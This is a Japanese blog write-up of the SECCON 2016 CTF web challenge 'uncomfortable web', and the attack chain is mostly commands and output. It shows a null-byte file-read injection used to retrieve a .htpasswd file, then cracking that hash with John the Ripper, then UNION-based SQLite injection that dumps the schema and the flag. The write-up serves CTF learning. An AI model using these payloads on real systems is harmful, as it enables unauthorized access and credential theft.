 ```yaml
---
layout: post
alias: "/blog/2016/12/11/seccon-2016-online-uncomfortable-web/"
date: "2016-12-11T22:52:05+09:00"
tags: [ "ctf", "writeup", "seccon", "web", "sql-injection", "null-byte-attack", "htaccess", "htpasswd", "sqlite" ]
"target_url": [ "https://score-quals.seccon.jp/question/1707d3814069dec8ca49947830e3a51fdff4714b" ]
---
```


# SECCON 2016 Online CTF: uncomfortable web

本番ではそもそも開かず。生きてるweb問は貴重なので早めに復習。

## problem

適当な言語でscriptをuploadすると、remoteで実行してくれるサービス。
そこから繋がる `http://127.0.0.1:81/` にflagがあるので探す問題。

## solution

まず、scriptをwebからuploadして確認するのは煩雑である。以下のようにする。

``` sh
#!/bin/bash
atexit() { [ -n $tmpfile ] && rm -f "$tmpfile" ; }
tmpfile=`mktemp --suffix=.sh`
trap atexit EXIT
trap 'trap - EXIT; atexit; exit -1' SIGHUP SIGINT SIGTERM
cat <<EOF > $tmpfile
#!/bin/sh
echo
echo --------
echo
echo
echo

curl http://127.0.0.1:81/

echo
echo
echo
echo --------
echo
EOF
curl http://uncomfortableweb.pwn.seccon.jp/\? -F file=@$tmpfile | sed 's/&lt;/</g ; s/&gt;/>/g ; s/&quot;/'\''/g ; s/&amp;/\&/g'
```


`http://127.0.0.1:81/`ではディレクトリが見える。

```
Index of /

[ICO]           Name            Last modified   Size            Description
[DIR]           authed/         28-Nov-2016 10:51               -                
[TXT]           select.cgi      28-Nov-2016 10:08               612              
Apache Server at 127.0.0.1 Port 81
```

`/authed`にはbasic認証がある。
`/select.cgi`は以下のような出力をする。

``` html
<html>
<body>
<form action='?' method='get'>
<select name='txt'>
<option value='a'>a</option>
<option value='b'>b</option>
</select>
<input type='submit' vaue='GO'>
</form>
</body></html>
```

例えば `curl http://127.0.0.1:81/select.cgi?txt=a` とすると以下のように、`/authed/${txt}.txt`を読んでくれる。

``` html
<html>
<body>
<form action='?' method='get'>
<select name='txt'>
<option value='a'>a</option>
<option value='b'>b</option>
</select>
<input type='submit' vaue='GO'>
</form>
<hr>
authed/a.txt<br>
<br>
                       /$$     /$$                       /$$       /$$            /$$                /$$    <br>
                      | $$    | $$                      | $$      /$$/           | $$               | $$    <br>
  /$$$$$$  /$$   /$$ /$$$$$$  | $$$$$$$   /$$$$$$   /$$$$$$$     /$$//$$$$$$    /$$$$$$  /$$   /$$ /$$$$$$  <br>
 |____  $$| $$  | $$|_  $$_/  | $$__  $$ /$$__  $$ /$$__  $$    /$$/|____  $$  |_  $$_/ |  $$ /$$/|_  $$_/  <br>
  /$$$$$$$| $$  | $$  | $$    | $$  \ $$| $$$$$$$$| $$  | $$   /$$/  /$$$$$$$    | $$    \  $$$$/   | $$    <br>
 /$$__  $$| $$  | $$  | $$ /$$| $$  | $$| $$_____/| $$  | $$  /$$/  /$$__  $$    | $$ /$$ &gt;$$  $$   | $$ /$$<br>
|  $$$$$$$|  $$$$$$/  |  $$$$/| $$  | $$|  $$$$$$$|  $$$$$$$ /$$/  |  $$$$$$$ /$$|  $$$$//$$/\  $$  |  $$$$/<br>
 \_______/ \______/    \___/  |__/  |__/ \_______/ \_______/|__/    \_______/|__/ \___/ |__/  \__/   \___/  <br>
<br>
<br>
</body></html>
```

ここでnull-byte attackができて、`curl http://127.0.0.1:81/select.cgi?txt=a.txt%00`で上と同じ結果が得られる。

これを使って`/authed`の認証情報を取りにいく。つまり`.htaccess` `.htpasswd`を読む。
`curl http://127.0.0.1:81/select.cgi?txt=.htpasswd%00` とすると

```
keigo:LdnoMJCeVy.SE
```

と得られる。passwordは暗号化されているが、これは John the Ripper で破れる。(たぶんbruteforceしてる。)

``` sh
$ cat .htpasswd
keigo:LdnoMJCeVy.SE

$ john .htpasswd
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 SSE2-16])
Press 'q' or Ctrl-C to abort, almost any other key for status
test             (keigo)
1g 0:00:00:00 100% 2/3 33.33g/s 30733p/s 30733c/s 30733C/s orange..horses
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

`curl --user keigo:test http://127.0.0.1:81/authed/sqlinj/` として見る。
以下のように並んでいる。

```
[DIR]           Parent Directory                                -                
[TXT]           1.cgi           28-Nov-2016 11:41               750              
[TXT]           2.cgi           28-Nov-2016 11:41               750              
[TXT]           3.cgi           28-Nov-2016 11:41               750              
[TXT]           4.cgi           28-Nov-2016 11:41               750              
[TXT]           5.cgi           28-Nov-2016 11:41               750              
[TXT]           6.cgi           28-Nov-2016 11:41               750              
[TXT]           7.cgi           28-Nov-2016 11:41               750              
...
[TXT]           98.cgi          28-Nov-2016 11:41               750              
[TXT]           99.cgi          28-Nov-2016 11:41               750              
[TXT]           100.cgi         28-Nov-2016 11:41               750              
```

どれも以下のようなもので、

``` html
<html>
<head>
  <title>SECCON 2016 Online</title>
  <!-- by KeigoYAMAZAKI, 2016.11.08- -->
</head>
<body>
<a href='?no=4822267938'>link</a>
</body></html>
```

`http://127.0.0.1:81/authed/sqlinj/1.cgi?no=4822267938`とすると以下のように検索結果が返る。

``` html
<html>
<head>
  <title>SECCON 2016 Online</title>
  <!-- by KeigoYAMAZAKI, 2016.11.08- -->
</head>
<body>
<a href='?no=4822267938'>link</a>
<hr>
ISBN-10: 4822267938<br>
ISBN-13: 978-4822267933<br>
PUBLISH: 2016/2/19<p>
</body></html>
```

`1.cgi`には刺さらないが、$100$ある内のいずれかにSQLiが刺さると踏んで、

``` sh
for i in \`seq 100\` ; do
    curl --user keigo:test http://127.0.0.1:81/authed/sqlinj/\$i.cgi?no=$(urlencode " ' or 1 = 1 -- ")
done
```

とすると`72.cgi`がそれ。

適当にsqliteと判断して`sqlite_master`を見る。
これは`by KeigoYAMAZAKI`という作問者情報からでも分かるらしい。

``` sh
curl --user keigo:test http://127.0.0.1:81/authed/sqlinj/72.cgi?no=$(urlencode " ' union select type, name, sql from sqlite_master -- ")
```

``` html
<html>
<head>
  <title>SECCON 2016 Online</title>
  <!-- by KeigoYAMAZAKI, 2016.11.08- -->
</head>
<body>
<a href='?no=4822267938'>link</a>
<hr>
ISBN-10: table<br>
ISBN-13: books<br>
PUBLISH: CREATE TABLE books (isbn10,isbn13,date)<p>
ISBN-10: table<br>
ISBN-13: f1ags<br>
PUBLISH: CREATE TABLE f1ags (f1ag)<p>
</body></html>
```

よって

``` sh
curl --user keigo:test http://127.0.0.1:81/authed/sqlinj/72.cgi?no=$(urlencode " ' union select f1ag, 1, 1 from f1ags -- ")
```

``` html
<html>
<head>
  <title>SECCON 2016 Online</title>
  <!-- by KeigoYAMAZAKI, 2016.11.08- -->
</head>
<body>
<a href='?no=4822267938'>link</a>
<hr>
ISBN-10: SECCON{I want to eventually make a CGC web edition... someday...}<br>
ISBN-13: 1<br>
PUBLISH: 1<p>
</body></html>
```
